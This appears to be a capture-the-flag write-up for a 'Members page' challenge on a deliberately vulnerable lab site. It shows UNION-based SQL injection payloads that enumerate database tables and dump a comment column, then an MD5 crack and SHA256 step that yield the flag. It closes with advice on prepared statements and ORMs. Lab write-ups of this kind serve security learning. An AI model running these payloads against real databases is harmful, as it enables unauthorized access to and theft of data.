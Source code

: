 # MEMBERS PAGE

## Explanations

Just like the first SQL injection, we will use again our SQL command to get all the tables of the database: 
```sql
1 UNION SELECT column_name, table_name FROM information_schema.columns
```

Last time, we looked into the `users` table. This time, after some investigation, we saw that `list_images` had some interesting things too, particularly in the `comment` column.

```sql
1 UNION SELECT title, comment FROM list_images
```

This request doesn't seem to find list_images table... Let's see to which database it is linked to:
```sql
1 UNION SELECT table_name, table_schema FROM information_schema.colums
```
which gives us:
```
ID: 1 UNION SELECT table_name, table_schema FROM information_schema.columns 
First name: list_images
Surname : Member_images
```

Then let's try this now:
```sql
1 UNION SELECT title, comment FROM Member_images.list_images
```
and we get an interesting response:
```
ID: 1 UNION SELECT title, comment FROM Member_images.list_images 
First name: Hack me ?
Surname : If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
```

Let's get the flag:
- First MD5 decoding => `albatroz`
- and then SHA256 => `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

---

## How to avoid that security breach ?

A good way to counter that could be to use Prepared statements. ORMs do that trick usually pretty well. This coding style allows the database to distinguish between code and data, regardless of what user input is supplied.

---

#### Sources

- [All infos about SQL database](https://stackoverflow.com/questions/600446/how-do-you-return-the-column-names-of-a-table)  
- [SQL injection prevention](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [Find Table Names for SQL Injection](https://www.sqlinjection.net/table-names/)
- [MD5 Decrypter](https://md5decrypt.net/)
- [SHA256 Encrypter](https://md5decrypt.net/Sha256/)
